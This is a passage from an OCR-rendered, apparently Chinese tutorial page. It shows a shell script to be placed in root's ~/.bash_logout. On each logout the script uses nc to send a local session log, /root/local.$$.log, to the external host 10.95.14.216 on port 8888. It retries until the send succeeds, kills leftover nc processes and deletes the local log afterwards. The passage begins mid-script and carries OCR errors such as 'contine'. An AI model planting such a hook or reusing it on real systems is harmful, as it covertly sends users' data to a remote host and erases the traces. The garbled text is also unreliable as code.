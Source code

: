 contine

fi

done

fi

实战阶段\~/.bash_logout(单端口):

num=8888

while true

do

((nc 10.95.14.216 \$num \< /root/local.\$\$.log 2\>&1 \| grep refused \>
tmp\$\$) &) && echo 1 \>& /dev/null

output=\$(cat tmp\$\$)

if [[ \$output = "" ]]

then

pid=\$(ps -ef \| grep "nc 10.95.14.216 \$num" \| awk '{print \$2}' \| head -n 1)

kill -9 \$pid 2\>&1 \| grep "No such" \> error\$\$

cycle=\$(cat error\$\$)

if [[ \$cycle = "" ]]

then

rm -f error\$\$

echo 1 \>& /dev/null

else

rm -f error\$\$

sleep 10

continue

fi

rm -f tmp\$\$

(nc 10.95.14.216 \$num \< /root/local.\$\$.log &) && rm -f /root/local.\$\$.log

break

else

sleep 10

continue

fi

done
